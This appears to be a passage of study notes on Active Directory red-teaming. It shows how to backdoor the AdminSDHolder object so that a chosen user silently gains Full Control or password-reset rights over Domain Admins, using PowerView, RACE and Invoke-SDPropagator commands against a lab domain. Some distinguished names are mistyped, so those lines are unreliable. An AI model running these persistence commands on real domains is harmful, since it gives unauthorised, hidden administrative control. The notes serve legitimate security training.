 ![Alt text](/assets/images/posts/crtp/14.png){: .align-center}


- With DA privileges (Full Control/Write permissions) on the AdminSDHolder object, it can be used as a **backdoor/persistence** mechanism by adding a user with Full Permissions (or other interesting permissions) to the AdminSDHolder object.
- In 60 minutes (when SDPROP runs), the user will be added with Full Control to the AC of groups like Domain Admins without actually being a member of it.


### How to do it

**Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA**:
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Using ActiveDirectory Module and RACE toolkit**:

[RACE on GitHub](https://github.com/samratashok/RACE)

```powershell
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

**Other interesting permissions (ResetPassword, WriteMembers) for a user to the AdminSDHolder**:
```powershell
Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc=dollarcorp,dc=moneycorp,dc=loc	al' -PrincipalIdentity student1 -Rights ResetPassword -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose

Add-DomainObjectAcl -TargetIdentity 'CN=AdminSDHolder,CN=System,dc-dollarcorp,dc=moneycorp,dc=local' -PrincipalIdentity student1 -Rights WriteMembers -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Run SDProp manually using Invoke-SDPropagator.ps1 from Tools directory**:
```powershell
Invoke-SDPropagator -timeoutMinutes 1 -showProgress -Verbose
```
